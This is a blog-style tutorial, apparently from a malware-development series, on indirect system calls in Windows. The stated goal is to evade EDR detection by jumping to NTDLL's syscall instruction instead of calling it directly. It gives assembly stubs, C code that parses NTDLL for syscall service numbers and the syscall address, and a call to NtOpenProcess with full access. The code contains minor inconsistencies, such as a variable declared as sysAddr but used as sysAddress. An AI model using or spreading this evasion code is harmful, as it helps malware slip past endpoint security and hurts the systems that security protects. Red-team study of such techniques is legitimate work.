

# Indirect System Call

## Theory

There isn't much difference between a direct system call & indirect system call. As you might have seen , the implementation for direct system call was to invoke a `syscall` instruction inside the assembly. The problem with this method is that it can easily be sensed by EDR's because it is weird for a syscall to be invoked from anywhere outside of the NTDLL. So the _gato_ had to now think of a workaround.

<figure><figcaption><p><em>HMM I can snek behind EDR</em></p></figcaption></figure>

So it finally had a better thought, which was to instead have a `jmp` instruction to where the syscall is. This saves us from calling the syscall directly + since we jmp to a memory inside NTDLL , the syscall seems to be coming from a legit source. A nice idea indeed. Putting his thought to an assembly, _кошка_ finally finishes it's new work.

## Indirect System Call


```nasm
.data
EXTERN dwNtOpenProcess:DWORD;
EXTERN sysAddr:QWORD;

.code
iNtOpenProcess PROC
                mov r10, rcx
                mov eax, dwNtOpenProcess
                jmp qword ptr sysAddr
                ret
iNtOpenProcess ENDP
....
END
```


Now that we have updated our assembly, we also have to tweak our C code. Firstly, we need to get the address to the memory where the syscall occurs. Again we can do it by simply parsing any function until we reach the bytes `0x0F 0x05` which is the [OPCode](https://en.wikipedia.org/wiki/Opcode) for a system call, then we can just jmp to this address later. Also since we are jumping to a `syscall` we don't need to keep looking for different syscalls for different functions, any syscall can be used to do the job. So for `NtOpenProcess`, we can also use syscall within the `NtClose` function. Although, we still would have to get the **SSN** of each function. Here's a simple C code to do that

```c
VOID get_ssn_sign(HMODULE ntHandle, CONST LPCSTR fnName, PDWORD fnSSN, PUINT_PTR sysAddr) {

    UCHAR       sysSignature[2] = { 0x0F, 0x05 };
    DWORD               SussyNum = 0;
    UINT_PTR    NtfnAddress = NULL;

    NtfnAddress = (UINT_PTR)GetProcAddress(ntHandle, fnName);
    if ((PVOID)NtfnAddress == NULL) {
        warn("GetProcAddress Failed  @-->0x%d || NtfnAddress @--0x%x", GetLastError(), NtfnAddress);
        return;
    }
    
    BYTE ssn1= (BYTE)((PBYTE)(NtfnAddress + 0x4))[0];
    BYTE ssn2 = (BYTE)((PBYTE)(NtfnAddress + 0x4))[1];
    *fnSSN = (PDWORD)((ssn2 << 8) | ssn1);
    *sysAddr= NtfnAddress + 0x12;
    // Again the 0F 05 should be at offset of 0x12
    
    if (memcmp(sysSignature, *sysAddress, sizeof(sysSignature)) == 0) {
        info("Found @---0x%p", *sysAddress);
    }
    else {
        warn("weird function, no sig found");
        return;
    }
}
```

After getting the SSN for every function, we will get the address for the syscall instruction and then it's just the same as it was for direct system call. Here's a snippet , and once again you can find the full code in [my github](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/main.c).

```c
QWORD sysAddr;

get_ssn_sign(ntdllModule, "NtOpenProcess", &dwNtOpenProcess, &sysAddr);

STATUS = iNtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &OA, &CID);
if (STATUS != STATUS_SUCCESS) {
    warn("NtOpenProcess failed with  @-->%d", GetLastError());
    goto deadend;
}
....
```

Also dont' forget to setup the asm file just in the same way as described in the previous post. With that, we come to an end. This was a short one since it required just a slight tweaking in the system call implementation. We can run this and see the calc spawning.

<figure><figcaption></figcaption></figure>

<figure><figcaption><p> <em>Indrect Syscalls are Cat-astrophic !</em></p></figcaption></figure>

I hope you guys did understand what I tried explaining. You can dm me on [twitter ](https://x.com/ZzN1NJ4)anytime for any queries. There's a lot to talk about, I hope I am able to squeeze some more time for this. Thanks for reading :)

## References

* [https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls](https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls)
* [https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9](https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9)
